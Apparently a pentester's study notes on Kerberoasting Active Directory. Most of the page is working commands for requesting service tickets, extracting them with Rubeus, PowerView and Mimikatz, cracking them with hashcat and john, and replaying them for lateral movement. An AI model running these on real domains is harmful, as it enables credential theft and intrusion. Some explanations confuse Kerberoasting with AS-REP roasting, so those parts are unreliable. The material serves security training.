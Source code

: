 # Kerberoasting
This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.

![AD Herbros002](https://github.com/user-attachments/assets/f7ed51a4-9646-4ccc-a4e7-f302842ce711)


## **Perform Kerberoasting using `Kali`:**

**Command Syntax**: Use the following command to request the **TGS** (Ticket Granting Server) and capture the TGS-REP hash:
#### Kerberoast without preauthentication   
```bash
impacket-GetUserSPNs -request -dc-ip <DomainController_IP>  -outputfile <output_file> <Domain/User>
```
#### with a password
```
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
```
#### Using a Hash from a user 
```
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```
Example
```
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'aad3b435b51404eeaad3b435b51404ee:e728ecbadfb02f51ce8eed753f3ff3fd' -dc-ip 10.10.94.140 'oscp.exam/celia.almeda'
```
- **-request** to obtain the TGS
Example:
``` shell
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.50 corp.com/ahmed
```
HashShape
```
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$9b161bcb9f98f19b.......a85ee4
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in [[Hashcat]] format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
**Solving Error**
`Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`
![image](https://github.com/user-attachments/assets/ac12a70c-6d6f-47ab-baca-79415d7c39f6)
```shell
sudo apt install rdate
sudo timedatectl set-ntp off
sudo rdate -n <Domain-IP>
```
Then Run Command again and will work
## **Perform Kerberoasting on `Windows` (joined domain):**
By using use [Rubeus]([https://github.com/GhostPack/Rubeus](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools/GhostPack-Compiled%20Binaries)) 

``` powershell
.\Rubeus.exe kerberoast /nowrap
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap
```
### Using `PowerView` to Extract TGS Tickets

``` powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
`Results`
```powershell-session
samaccountname
--------------
krbtgt
userb
```
### Using PowerView to Target a Specific User
```powershell
Get-DomainUser -Identity userb | Get-DomainSPNTicket -Format Hashcat
```

**Remove all spaces and lines in a file:**
``` shell
tr -d '[:space:]' < input_file > output_file
```
**Exporting All Tickets to a CSV File**
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\domain_tgs.csv -NoTypeInformation
```
### Extracting Tickets from Memory with Mimikatz
``` mimikatz
mimikatz # base64 /out:true
mimikatz # kerberos::list /export 
```
If we extract only `.kirbi` files and this will happen if we run `mimikatz` automatically without `base64 /out:true` 
##### ---> On kali <---
#### Extract Hashes from `.kirbi` Tickets
``` shell
python3 kirbi2john.py ticket.kirbi > hash.txt
john hash.txt --wordlist=/path/to/wordlist.txt
```
**With Hashcat:** Use Kerberos Ticket Hash mode `13100`:
``` shell
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
### Replay Tickets with Impacket
##### 1. Convert .kirbi to CCache
``` shell
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ticket.kirbi ticket.ccache
```
##### 2. Set Environment Variable for Replay 
If you plan to use the ticket for further lateral movement or pass-the-ticket attacks, set the `KRB5CCNAME` environment variable:
``` shell
export KRB5CCNAME=/path/to/ticket.ccache
```
If you intend to replay the `.kirbi` ticket instead of cracking it, Impacket’s `psexec.py` or `wmiexec.py` can be used.
``` shell
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass DOMAIN/USERNAME@TARGET
```
- The `-k` flag uses the Kerberos ticket.


### On BloodHound we notice it as:

![image](https://github.com/user-attachments/assets/1d4eab33-897d-44a5-b4d3-68aee8275292)

